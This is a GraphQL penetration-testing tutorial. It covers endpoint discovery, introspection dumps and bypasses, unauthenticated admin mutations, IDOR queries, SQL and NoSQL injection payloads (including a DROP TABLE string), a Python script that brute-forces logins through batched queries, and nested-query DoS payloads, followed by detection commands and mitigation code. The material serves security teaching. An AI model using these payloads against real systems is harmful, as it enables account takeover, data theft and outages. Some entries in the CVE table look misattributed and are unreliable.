

# GraphQL Security

> **GraphQL's flexible query language gives attackers the power to interrogate an entire API schema, abuse deeply nested queries, bypass authorization, and brute-force credentials — all through a single endpoint.**

---

## 🧠 What Is It? (Beginner Explanation)

REST APIs have many endpoints (`/users`, `/posts`, `/orders`). GraphQL collapses all of that into **one endpoint** (`/graphql`) where you craft queries to ask for exactly what you want.

That sounds great — but it also means one endpoint does everything. If an attacker finds `/graphql`, they potentially have access to every object, every relationship, and every operation the server supports.

**Analogy:** REST is like a restaurant with a fixed menu per table. GraphQL is like a kitchen where you walk in, open the fridge, and ask for any combination of ingredients yourself. Great for developers. Also great for attackers.

---

## 🏗️ How It Works (Technical Deep Dive)

### Core Concepts

| Term | Description |
|------|-------------|
| **Schema** | The blueprint — defines every type, field, query, and mutation |
| **Query** | Read operation (like GET) |
| **Mutation** | Write operation (like POST/PUT/DELETE) |
| **Subscription** | Real-time updates over WebSocket |
| **Resolver** | Server-side function that handles each field |
| **Introspection** | Built-in feature to query the schema itself |
| **Type System** | Strongly typed: `String`, `Int`, `Boolean`, custom types |

### Anatomy of a GraphQL Request

```http
POST /graphql HTTP/1.1
Host: target.com
Content-Type: application/json
Authorization: Bearer eyJ...

{
  "query": "{ user(id: \"1\") { id name email role } }",
  "variables": {},
  "operationName": null
}
```

### Schema Structure Example

```graphql
type Query {
  user(id: ID!): User
  users: [User]
  adminUsers: [User]
}

type Mutation {
  login(email: String!, password: String!): AuthPayload
  deleteUser(id: ID!): Boolean
  updateUserRole(id: ID!, role: String!): User
}

type User {
  id: ID!
  name: String!
  email: String!
  password: String      # Should never be exposed
  role: String!
  creditCard: String    # Sensitive field
  address: String
}

type AuthPayload {
  token: String!
  user: User!
}
```

---

## 📊 Diagram

```mermaid
flowchart TD
    A[Attacker] -->|Single HTTP POST| B[/graphql Endpoint]
    B --> C{GraphQL Engine}
    C --> D[Query Resolver]
    C --> E[Mutation Resolver]
    C --> F[Subscription Handler]
    D --> G[(Database)]
    E --> G
    F --> H[WebSocket]

    subgraph "Attack Surface"
        I[Introspection Dump]
        J[Nested Query DoS]
        K[Batching Brute Force]
        L[Auth Bypass in Resolvers]
        M[IDOR via Object IDs]
        N[Injection in Arguments]
    end

    A --> I
    A --> J
    A --> K
    A --> L
    A --> M
    A --> N
```

---

## ⚙️ Technical Details

### How Introspection Works

GraphQL has a **built-in self-documentation system**. Send a special `__schema` query and the server returns its entire structure — every type, every field, every operation. This is intended for developer tools but is a goldmine for attackers.

### The Resolver Authorization Problem

In REST, you might have one auth middleware protecting `/api/admin/*`. In GraphQL, **each field has its own resolver function**. If a developer forgets to add an auth check to even one resolver, that field is open to anyone.

```
Query: { adminUsers { id email } }
         ↓
  adminUsersResolver()  ← Is there an auth check here?
                            If not, anyone can call it.
```

### Batching vs. Rate Limiting

REST APIs rate-limit by HTTP request count. GraphQL allows **multiple operations in a single request** (batching). A single HTTP request can contain hundreds of login attempts, each as a named operation — completely bypassing per-request rate limits.

---

## 💥 Exploitation (Step-by-Step)

### Step 1 — Discover the GraphQL Endpoint

```bash
# Common GraphQL paths
/graphql
/api/graphql
/v1/graphql
/query
/api/query
/graphiql        # Development IDE (jackpot if found in prod)
/playground      # Apollo Playground

# Automated discovery
ffuf -u https://target.com/FUZZ -w /usr/share/wordlists/common.txt \
  -H "Content-Type: application/json" \
  -d '{"query":"{__typename}"}' \
  -fr "errors"

# Check response for GraphQL signature
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{__typename}"}' | jq .
# Response: {"data":{"__typename":"Query"}} ← confirmed GraphQL
```

### Step 2 — Run Introspection Query (Full Schema Dump)

```graphql
# Full schema introspection — paste this into GraphiQL or Burp Repeater
{
  __schema {
    queryType { name }
    mutationType { name }
    subscriptionType { name }
    types {
      name
      kind
      description
      fields {
        name
        description
        args {
          name
          type {
            name
            kind
            ofType { name kind }
          }
          defaultValue
        }
        type {
          name
          kind
          ofType { name kind }
        }
      }
      inputFields {
        name
        type { name kind }
      }
      interfaces { name }
      enumValues { name }
      possibleTypes { name }
    }
    directives {
      name
      description
      locations
      args { name }
    }
  }
}
```

```bash
# InQL CLI — automated introspection and query generation
inql -t https://target.com/graphql -o ./output/
ls ./output/   # Generated query/mutation files for every type

# graphw00f — fingerprint the GraphQL implementation
python3 graphw00f.py -t https://target.com/graphql
# Output: [+] Found GraphQL Engine: Apollo Server v2.x
```

### Step 3 — Bypass Introspection Disabling

Some servers disable `__schema`. Try these bypasses:

```graphql
# 1. Use __type instead of __schema
{ __type(name: "Query") { fields { name type { name } } } }

# 2. Fragment-based bypass
{ ...on Query { __typename } }

# 3. Newline/whitespace injection (bypasses naive string matching)
{"query": "{\n  __schema\n{types{name}}}"}

# 4. GET request instead of POST (different code path)
GET /graphql?query={__schema{types{name}}} HTTP/1.1

# 5. Alias trick
{ s: __schema { types { n: name } } }
```

```bash
# clairvoyance — dictionary-based schema recovery without introspection
python3 -m clairvoyance \
  -t https://target.com/graphql \
  -w /usr/share/wordlists/SecLists/Discovery/Web-Content/graphql.txt \
  -o schema.json

# Then visualize with GraphQL Voyager
```

### Step 4 — Field Suggestion Enumeration

GraphQL's "did you mean?" feature leaks field names even without introspection:

```graphql
# Intentional typo to trigger suggestion
{ users { passw } }
# Error: "Cannot query field 'passw'. Did you mean 'password'?"

{ users { em } }
# Error: "Cannot query field 'em'. Did you mean 'email'?"

{ adminPanal { users { id } } }
# Error: "Did you mean 'adminPanel'?"
```

```bash
# Automate field enumeration with clairvoyance
# Or manually script it:
for word in $(cat /usr/share/wordlists/graphql-fields.txt); do
  result=$(curl -s -X POST https://target.com/graphql \
    -H "Content-Type: application/json" \
    -d "{\"query\":\"{ users { ${word} } }\"}")
  echo "$word: $(echo $result | jq -r '.errors[0].message')"
done
```

### Step 5 — Authentication Bypass via Missing Resolver Auth

```graphql
# Test unauthenticated access to sensitive mutations
# Try WITHOUT an Authorization header

mutation {
  deleteUser(id: "1") 
}

{ adminUsers { id email password role } }

mutation {
  updateUserRole(id: "99", role: "ADMIN") { id role }
}

mutation {
  createAdmin(email: "hacker@evil.com", password: "hacked123") { token }
}
```

```bash
# Use Burp Suite — send request to Repeater, delete Auth header, resend
# Or with curl:
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ adminUsers { id email password } }"}' | jq .
```

### Step 6 — IDOR via GraphQL Object References

```graphql
# Authenticated as User B, fetch User A's data
{
  user(id: "1") {
    id
    name
    email
    creditCard
    address
    orders {
      id
      total
      items { name }
    }
  }
}

# Try incrementing IDs
{
  invoice(id: "1001") { total billingAddress cardLastFour }
}
```

```graphql
# IDOR in mutations — modify another user's data
mutation {
  updateProfile(id: "1", email: "hacker@evil.com") {
    id
    email
  }
}

# Delete another user's resource
mutation {
  deleteComment(id: "42") 
}
```

### Step 7 — GraphQL Injection

```graphql
# SQL injection in argument
{ user(id: "1 OR 1=1") { id name email } }
{ user(id: "1; DROP TABLE users;--") { id } }

# NoSQL injection (MongoDB)
{ user(id: { "$gt": "" }) { id name email password } }
{ login(email: { "$regex": ".*" }, password: { "$regex": ".*" }) { token } }

# Filter injection
{ users(filter: "'; UNION SELECT username,password FROM admin--") { id } }
```

### Step 8 — Batching Attack (Brute Force)

```graphql
# Brute force login via query aliases — all in ONE HTTP request
mutation {
  a1: login(email: "admin@corp.com", password: "password") { token }
  a2: login(email: "admin@corp.com", password: "password1") { token }
  a3: login(email: "admin@corp.com", password: "123456") { token }
  a4: login(email: "admin@corp.com", password: "admin") { token }
  a5: login(email: "admin@corp.com", password: "letmein") { token }
  a6: login(email: "admin@corp.com", password: "qwerty") { token }
  a7: login(email: "admin@corp.com", password: "monkey") { token }
  a8: login(email: "admin@corp.com", password: "dragon") { token }
  a9: login(email: "admin@corp.com", password: "master") { token }
  a10: login(email: "admin@corp.com", password: "sunshine") { token }
}
```

```python
# Python script: generate mass batching mutation
import json, requests

target = "https://target.com/graphql"
email = "admin@corp.com"

with open("/usr/share/wordlists/rockyou.txt") as f:
    passwords = [line.strip() for line in f.readlines()[:500]]

# Build batch query with 50 attempts per request
for i in range(0, len(passwords), 50):
    batch = passwords[i:i+50]
    aliases = []
    for j, pwd in enumerate(batch):
        escaped = pwd.replace('"', '\\"')
        aliases.append(
            f'a{j}: login(email: "{email}", password: "{escaped}") {{ token }}'
        )
    query = "mutation {\n" + "\n".join(aliases) + "\n}"
    resp = requests.post(target,
        json={"query": query},
        headers={"Content-Type": "application/json"})
    data = resp.json().get("data", {})
    for key, val in data.items():
        if val and val.get("token"):
            print(f"[+] FOUND! Password: {batch[int(key[1:])]}, Token: {val['token']}")
            exit()
```

### Step 9 — Denial of Service (Deep Query / Circular Reference)

```graphql
# Depth-based DoS — exponential server load
{
  user(id: "1") {
    friends {
      friends {
        friends {
          friends {
            friends {
              friends {
                friends {
                  friends { id name email }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

```graphql
# Field duplication DoS
{
  user(id: "1") {
    id id id id id id id id id id
    name name name name name name
    email email email email email
  }
}
```

```graphql
# Circular fragment DoS (if server allows)
fragment UserFields on User {
  friends {
    ...UserFields
  }
}
{ user(id: "1") { ...UserFields } }
```

### Full Exploitation Chain



---

## 🛠️ Tools

### InQL (Burp Suite Extension)

```bash
# Install via Burp BApp Store, or CLI mode:
pip install inql

# Generate all queries from introspection
inql -t https://target.com/graphql -o ./inql-output/

# Output structure:
# inql-output/
#   query/
#     user.graphql
#     users.graphql
#   mutation/
#     login.graphql
#     deleteUser.graphql
```

### graphw00f (Fingerprinting)

```bash
git clone https://github.com/dolevf/graphw00f
cd graphw00f
python3 graphw00f.py -t https://target.com/graphql

# Identifies: Apollo, Hasura, Graphene, Strawberry, Lighthouse, etc.
# Different engines have different quirks and known CVEs
```

### clairvoyance (Schema Recovery)

```bash
pip3 install clairvoyance

# Basic usage
python3 -m clairvoyance \
  -t https://target.com/graphql \
  -o schema.json

# With auth header
python3 -m clairvoyance \
  -t https://target.com/graphql \
  -H "Authorization: Bearer eyJ..." \
  -w custom-wordlist.txt \
  -o schema.json
```

### GraphQL Voyager (Visualization)

```bash
# Run locally with Docker
docker run -p 8080:80 graphql-voyager

# Or use online: https://graphql-voyager.netlify.app/
# Paste your introspected schema JSON → visual graph of all types/relationships
```

### jwt_tool (for GraphQL tokens)

```bash
git clone https://github.com/ticarpi/jwt_tool
pip3 install -r requirements.txt

python3 jwt_tool.py <JWT_TOKEN> -M pb    # Playbook: run all JWT attacks
python3 jwt_tool.py <JWT_TOKEN> -X a     # Algorithm confusion
python3 jwt_tool.py <JWT_TOKEN> -X n     # None algorithm
```

### Burp Suite GraphQL Scanner

```bash
# Use built-in active scan on GraphQL endpoint
# Or manually:
# 1. Capture request in Proxy
# 2. Send to Repeater
# 3. Use InQL extension to parse and auto-generate test cases
```

---

## 🔍 Detection

### Finding GraphQL Endpoints

```bash
# Passive: look in JS files
grep -r "graphql\|/query\|__schema" /extracted/js/ --include="*.js"

# Check common paths
for path in graphql api/graphql v1/graphql query graphiql playground; do
  curl -s -o /dev/null -w "%{http_code} ${path}\n" \
    -X POST "https://target.com/${path}" \
    -H "Content-Type: application/json" \
    -d '{"query":"{__typename}"}'
done

# Check response body for "data":{"__typename" pattern
```

### Identifying Vulnerable Configurations

```bash
# Check if introspection is enabled
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __schema { types { name } } }"}' | \
  jq '.data.__schema.types | length'
# If > 0: introspection enabled

# Check if GraphiQL IDE is exposed (dev tool should not be in prod)
curl -s https://target.com/graphiql | grep -i "graphiql\|playground"

# Check for batching support
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '[{"query":"{__typename}"},{"query":"{__typename}"}]' | jq .
# Array response = batching enabled
```

---

## 🛡️ Mitigation

### 1. Disable Introspection in Production

```javascript
// Apollo Server
const server = new ApolloServer({
  typeDefs,
  resolvers,
  introspection: process.env.NODE_ENV !== 'production',
});
```

### 2. Query Depth Limiting

```javascript
// graphql-depth-limit package
import depthLimit from 'graphql-depth-limit';

const server = new ApolloServer({
  validationRules: [depthLimit(5)], // max 5 levels deep
});
```

### 3. Query Complexity Analysis

```javascript
// graphql-query-complexity
import { createComplexityLimitRule } from 'graphql-validation-complexity';

const server = new ApolloServer({
  validationRules: [createComplexityLimitRule(1000)],
});
```

### 4. Rate Limiting and Batching Controls

```javascript
// Disable array batching
// Limit aliases per query
// Rate limit by IP and user token
app.use('/graphql', rateLimit({
  windowMs: 15 * 60 * 1000,
  max: 100,
}));
```

### 5. Authorization in Every Resolver

```javascript
// Every resolver must check auth — no exceptions
const resolvers = {
  Query: {
    adminUsers: async (_, __, context) => {
      if (!context.user || context.user.role !== 'ADMIN') {
        throw new ForbiddenError('Not authorized');
      }
      return User.findAll({ where: { role: 'ADMIN' } });
    },
    user: async (_, { id }, context) => {
      if (!context.user) throw new AuthenticationError('Not logged in');
      // IDOR check: only allow own profile unless admin
      if (id !== context.user.id && context.user.role !== 'ADMIN') {
        throw new ForbiddenError('Cannot access other users');
      }
      return User.findByPk(id);
    },
  },
};
```

### 6. Disable Field Suggestions

```javascript
// Custom error handler to strip suggestions
formatError: (error) => {
  const message = error.message.replace(/Did you mean.*\?/, '');
  return { ...error, message };
}
```

### Security Checklist

| Control | Status |
|---------|--------|
| Introspection disabled in production | ✅ Must have |
| Query depth limit (≤ 7) | ✅ Must have |
| Query complexity scoring | ✅ Must have |
| Batching disabled or limited | ✅ Must have |
| Auth check in every resolver | ✅ Must have |
| Object-level authorization (BOLA check) | ✅ Must have |
| Field suggestions disabled | ⚠️ Recommended |
| Rate limiting per token | ✅ Must have |
| No sensitive fields in schema | ✅ Must have |
| Logging all queries | ⚠️ Recommended |

---

## 🐛 CVE Examples

| CVE | Description | Affected |
|-----|-------------|---------|
| CVE-2023-26144 | GraphQL Cop — information disclosure via error messages | Multiple |
| CVE-2022-37734 | graphql-java DoS via deeply nested queries | graphql-java < 20.0 |
| CVE-2021-41248 | GraphiQL XSS via crafted query parameters | graphiql < 1.4.7 |
| CVE-2020-4038 | GraphQL Playground XSS | graphql-playground < 1.7.26 |

---

## 📚 References

- [OWASP GraphQL Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html)
- [PortSwigger GraphQL API vulnerabilities](https://portswigger.net/web-security/graphql)
- [HackTricks GraphQL](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql)
- [graphw00f](https://github.com/dolevf/graphw00f)
- [clairvoyance](https://github.com/nikitastupin/clairvoyance)
- [InQL](https://github.com/doyensec/inql)
- [GraphQL Voyager](https://github.com/graphql-kit/graphql-voyager)
- [DVGA — Damn Vulnerable GraphQL Application](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application)
